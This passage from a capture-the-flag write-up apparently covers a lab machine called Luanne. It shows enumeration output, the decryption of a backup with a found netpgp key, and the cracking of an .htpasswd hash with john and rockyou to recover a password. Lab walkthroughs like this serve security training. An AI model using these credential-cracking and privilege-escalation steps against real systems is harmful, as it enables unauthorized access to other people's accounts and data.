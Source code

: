 ```log
[+] Checking doas.conf
permit r.michaels as root
```

- This user has a PGP key stored for `netpgp`, that will possibly allow is to decrypt the file found on backup folder;
```log
[+] Do I have PGP keys?
gpg Not Found
/usr/bin/netpgpkeys
1 key found
"pub" 2048/"RSA (Encrypt or Sign)" "op" 2020-09-14
Key fingerprint: "027a 3243 0691 2e46 0c29 9f46 3684 eb1e 5ded 454a "
uid "RSA 2048-bit key <r.michaels@localhost>" ""
```

- Some user writable directories:
```log
[+] Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files
/home/r.michaels
/tmp
/var/mail
/var/mail/r.michaels
/var/shm
/var/spool/sockets
```

With the information above in hand, I have started with decrypting the file using the pgp key. For this I have used one of the user writable directories `/var/shm`:

```bash
luanne$ netpgp --decrypt --output=/var/shm/devel_backup-2020-09-16.tar.gz devel_backup-2020-09-16.tar.gz.enc
signature 2048/RSA (Encrypt or Sign) 3684eb1e5ded454a 2020-09-14
Key fingerprint: 027a 3243 0691 2e46 0c29 9f46 3684 eb1e 5ded 454a
uid RSA 2048-bit key <r.michaels@localhost>
```

Checking the decrypted content, we can see the files used in the API, as well as an `.htpassword` file, that besides already uses the user `webapi_user`, it has a different password hash.

```bash
tree -a devel-2020-09-16
devel-2020-09-16
├── webapi
│ └── weather.lua
└── www
├── .htpasswd
└── index.html
```

Using the same method as we did earlier, I cracked it and got the password **littlebear**.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long ./www/.htpasswd
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt-long, crypt(3) $1$ (and variants) [MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
littlebear (webapi_user)
1g 0:00:00:00 DONE (2021-02-20 16:02) 1.333g/s 17216p/s 17216c/s 17216C/s mirame..limewire
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
